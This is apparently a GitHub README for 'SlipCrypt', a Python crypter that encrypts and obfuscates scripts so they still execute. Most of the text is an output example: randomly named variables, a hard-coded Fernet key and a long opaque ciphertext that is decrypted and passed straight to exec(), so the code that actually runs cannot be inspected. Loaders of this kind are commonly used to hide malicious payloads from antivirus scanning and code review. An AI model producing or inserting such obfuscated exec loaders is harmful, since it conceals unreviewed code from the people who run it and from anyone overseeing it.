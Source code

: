 # SlipCrypt
Python based crypter. For use with python files only. Will not work with any other language. Execute encrypted/obfuscated python scripts

# Output Example

from cryptography.fernet import Fernet as zjRDNVGJCfNsfk <br />
SFZWvkdMKSjTAn = b'Xh8-t4kmG3DvqXXU3gEqh1uM9ODM4QIwSbFeWNAAdJU=' <br />
elSiiWAKlpVMVR = zjRDNVGJCfNsfk(SFZWvkdMKSjTAn) <br />
pCIvgneCeXnhDN = b'gAAAAABhgBKVEt0LfqzdJNXdij6WjSJ-Oi-tuXMP6S2Sz3dZU5ZAPHcs2OKtw6HfoFOpcP5h6k7uLZp9yxZqv1nqXupGoTTu51_theILa9nuVrZ6652Bf19O2M4pUPaxsRRYHnMVRoIK-PGjqJ_8YqV_o_04INyaxtzCzJ8xKCoBJhLNKVtRHPW6bB3WwdEsT7QZ1-AFnb6Xxya0ZwFd33A44JIHgSzEaa7rsmXonZXBNrl5k7B179mr3ec327VMQVVKJE8vlz77HBNLJeSbhW0KYUCMFWBVLaqZhXgXBoKdDqr7iUuLYTFBzMg9MJjfsHmsArqOxl3yHPLMF_T97zaIuLhIxB3gL3TdzvLHbmQO6yppkiCXpos0CUoNXB82Ppa87XQIKUAmp-RsfTkcKmK_9mkrYJ48EfdiYKD-GewirueWGEnxHLZXE5I5uGJXwFHpdxnK2Dps49_ieXGJ7XIiPcgZCyUAuibhd8TuOTqbNXQSbaEU_FxkAIhExIek_WeA3s1o-VYwa0Cq7jnTEyF4mPDkF1dnKWL9i__G4oqRBGcjdCheEQpBhER-MnB7V3gDbLBEK4PAwT5Oo8Syxs_Wix-cJkocEDhxZQ_9p9aCzRILPBxELxnpSgAQEVBQpRqYBJ0dIYEZmapiv-C_N7N88af--PWB2-wLutUf0X1GYCKCUa9J7ZZmkw8K239oVXtiTXg0I2DcLb8YR__WwMHlvvg0jr8jRPUC23LbX2igYUYUtfgfNQShtrgEDB0H4Hl_x_Leir_orh9Tq3CCAzZJ8EVg52KMfh4bIpbZSDUjM4r_-9HKJHTZ7rC96_uvt9bl92J8GE7LT9vmux2FC-CiOxKtryjayhVWWLXaZdWIPE9-dsXD4m8PMb7wHRbTR0YsLQwysBevG2enmNlnKCxogP6N5BhaWFXaL-tHNQLAl0qAxlIZPSMcyroKqBr0g6hrxzkNt3XyAi0ukh1-IB8qEXET03MiWAGVhxvIU6X_dyraAffZxGcPTCFL7JB8dv7TM7lJ_XBzPlXqIHbhNH7xZtHPKv5RTPhz29eonWC8MjttlgY1fMAw-PMXQTrP7seCywzkMY1FYnGJMSATD-rzp1zxYOjmhS-CONCgTAF4oprHE6033z8bvUsZJAJo8gwFpIY_ZQ7USxX8NS3W__tsk1lcqWaGkzb9qW_nYe9bGBfT99o71lew5_TZNvqu0IuS06tWUgMY-TEen0Kd4X_JbFFBA5MFr0TLx4Q1_-CqedEl-UFTuqIX6TvhjyaY-AgkHCzBWC2g-7TyBwyViqEwp4ml8S_-wfZGQ8mzH1hrvu0c7U-ig9Yc38ujD9j2O7ozXcMrOPfS1uD3qxgk7L-IxUCtCYtNh7D09JYkn_j7o15P11Y6sHFpWb6zsQzcyU1n4NxTRTRqaqD7iDNMPp9UTySF6K0p2kXOSQrvaO6jM6x24CIa7PnJgnRY2I-qo56-gc1B25a359a-kkX-FE077c004um2BV5bAshzHTRzbrvxylz1sZTitB-t1cLD357WT219K_GE0jurTK6LwaDGX459nGEiYCDIG8DCVUXdZMQ1mjJcbwPOAzGJjFPw_7NvCPREd--cddhOm_AfHuVAyEDYfTf9TdGP8SRbUfrRkNGeS_xIIcVPYZjmpmHEcGjMjnQGNOY4jRV4Ca7UQ2_6AhSYp98JpNQ0lCPyusEHD3jkhNpkoC99Rkn4TGwS4ZgdAwgWcafx-SCWj2Euau8E8Dhg3x8wEUq7ol6tr_v23WApaenP07SaOwDQSPhZS77DrUG6dZUvhxsncXjrJyeSpM34ph7gD25dHq1bH_jtG5wa57nZHDPBMBkAd9-D9z44MZW6fX-6cYtLAGyh8i32A9125Jil0flf3l_4RDLs0MoJc4fUZXYZaXoBqR_k_7r_XbUZViV0zZFBMQlHvFNWaQVscEsTlf-z-iaVMcAhYgNWV3W7XHnEnbnKCH9fshKOVqa6F5cAyqpCeo91vo3LGzwow5nv1ezt6bXjaPj4j3qcoVfo2NRrqffL4mDQWVioDTSzxda-eGpu_H_yaFzivLBODghuzHG7nTIPB1Xs9IuhQ4xMvC8YBBHYTSpgltUQ2--j_DbdcGMRf4YdpuSP5lm4wq3IiQPseidofmMDSGEgNfFSKaqNNbvqtssiRYeRCJP3y6rG2fh9-4CRuJYKlb0UnkVROdP-bA1U5fbWUQmyuNNBkL-Y0yhifGDT5yFJZU7zdFakjHpivr-gL5OpB-G-or7B_LSGXrdn1FHRCmC5LN6_NAS4lj288aTNo0GE8EUDVKxFUIPaNwwRtB-01X3ubB5KtQl_S1pacgZBh1Ky4cbaWnEhCceRLEiV0DRnKVOlxVCV5VhpRau5zv4PRxV7QnPayorxAEmpPZPUZeP3BNulGIzAVc_OdiS14htkseE3cDs4y4rJnkOaeplQJbs4cDJFV9CMrwlMB01O5emiaIPAfEz8Mp1ApeMZvBlfRF4B1YHOFuXbfuTLAKJBqxHohhxQo0cUgC5NQwUwvvwBazRLgVC436tvnDASHIRV6YbyUMkVj7kERutcr8uLHESispmqAYgk6JNYSm-tuaxEkrjFRCoZjvwcmk1lhHl7KBacSue-JPTGxsf9nA9LOLmAg32Mm0EKNwIPgJuDNhyTWyzPeIeJWwNDKO-CkGFzSaylOgjddM3i8FYeyvT5m7yl66_uldpeQp26aiMc3Mi-WMTglwtC5L_YztiKgTtotycChNDcB666roZVyUurUnOw0dgVG3Zesx6PR1dH8f68RIvNUB9InLnkGEIvL9GfHxqzDsS65nOd1qfKOQiIiTgaVKJaZAMQgbSxydu8v_DBsZiLh1L-uvzhekaVxEg0PIZnf8E2R29Lp1dx0PnuRFCqtQFsn9e7uAmzo21XoL0fxUC9xzvkHt_-thrb1U5VHCnBbM3IIFV3jn-VpJo-Xf0NjQRgDoxq0ahT_ReytVRJUE2vRi0n6RBpBF0HYcQVBln6iplPMgu7lFNoC1-zw4bJJnrQ8ybkUl_lk6wwvsylDpKg37oY-ctTEOITSfYcg-2cyBSlEI1IHI85_u02k4KcM7mc1uUCNkVL7TaC2zRChCX1exWOyMLWZGWDOPr8EYqT_lOIo-AMqcxCp6M_B4V6Re6wuvcwQtTqdB17OoYXdKn7CaaozvsDw3-T-uwjxkQXybI1MHe_hBbmqRD-0aQVVlEOA437rPFCnhPZw2Um1-OsSxAlVrAgE61BfiPpnb0ezGmhviIrsOd3NB-0mpzelGhRQKadez3-yYhecNtO2od4M2HHUMLmX2cwoFPu19dMoGAK' <br />
DUlsfRTtrOlXRY = elSiiWAKlpVMVR.decrypt(pCIvgneCeXnhDN) <br />
exec(DUlsfRTtrOlXRY)
